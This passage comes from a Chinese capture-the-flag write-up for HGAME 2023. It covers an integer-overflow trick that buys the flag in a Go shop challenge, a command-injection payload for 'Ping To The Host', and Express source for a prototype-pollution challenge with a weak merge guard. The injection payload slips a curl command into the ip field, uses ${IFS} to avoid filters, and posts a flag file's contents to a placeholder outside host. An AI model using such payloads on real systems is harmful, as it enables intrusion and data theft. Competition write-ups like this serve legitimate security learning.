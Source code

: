 而且刚好 `1844674407370955162` 这个数没有超过 int64 的范围 (`strconv.Atoi()` 传入的数字超出 int64 的范围会报错)

所以构造 number 为 `1844674407370955162`, price 为 `10`, 购买商品

![image-20230124161039267](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241610354.png)

![image-20230124161057064](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241610143.png)

然后算一下购买 flag 需要卖出多少个 Apple, 结果是 `1000000000000000000`

![image-20230124161309645](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241613721.png)

![image-20230124161322510](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241613580.png)

最后购买 flag

![image-20230124161337983](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241613032.png)

![image-20230124161357349](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301241613392.png)

`hgame{GopherShop_M@gic_1nt_0verflow}`

### Ping To The Host

```bash
ip=127.0.0.1%0acurl${IFS}x.x.x.x:yyyy${IFS}-X${IFS}POST${IFS}-d${IFS}"`c\at${IFS}/fla\g_is_here_haha`"
```

![image-20230123204237461](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301232042589.png)

![image-20230123204307285](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301232043337.png)

## Week 4

### Shared Diary

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const session = require('express-session');
const randomize = require('randomatic');
const ejs = require('ejs');
const path = require('path');
const app = express();

function merge(target, source) {
    for (let key in source) {
        // Prevent prototype pollution
        if (key === '__proto__') {
            throw new Error("Detected Prototype Pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

app
    .use(bodyParser.urlencoded({extended: true}))
    .use(bodyParser.json());
app.set('views', path.join(__dirname, "./views"));
```